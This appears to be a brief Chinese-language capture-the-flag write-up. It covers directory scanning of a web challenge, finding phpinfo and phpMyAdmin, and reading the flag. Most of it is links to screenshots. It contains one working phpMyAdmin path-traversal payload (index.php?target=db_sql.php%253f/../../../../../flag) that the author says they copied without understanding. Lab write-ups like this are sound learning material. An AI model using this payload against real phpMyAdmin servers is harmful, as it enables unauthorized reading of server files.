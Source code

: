 ![[Pasted image 20221125210719.png]]

---
首页长这样
![[Pasted image 20221125210651.png]]

`dirsearch`扫到了`robots.txt`
![[Pasted image 20221125220315.png]]
![[Pasted image 20221125211153.png]]

访问`/phpinfo.php`
![[Pasted image 20221125211604.png]]
宁就是`webmaster`嘛www

既然他说和数据库有关，那就记一下叭（虽然不知道有什么用）
![[Pasted image 20221125211941.png]]

---
还有一个`phpmyadmin`扫到了，不知道是啥
![[Pasted image 20221125220518.png]]
emmm没有思路，看看版本号蛮可疑的
![[Pasted image 20221125220708.png]]
![[Pasted image 20221125221044.png]]
![[Pasted image 20221125221327.png]]
看不懂，但能抄.jpg（脚本小子实锤）

```php
/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../flag
```
![[Pasted image 20221125222248.png]]

#Web #PHP #目录爆破 #phpmyadmin #Vulnerabilities #信息检索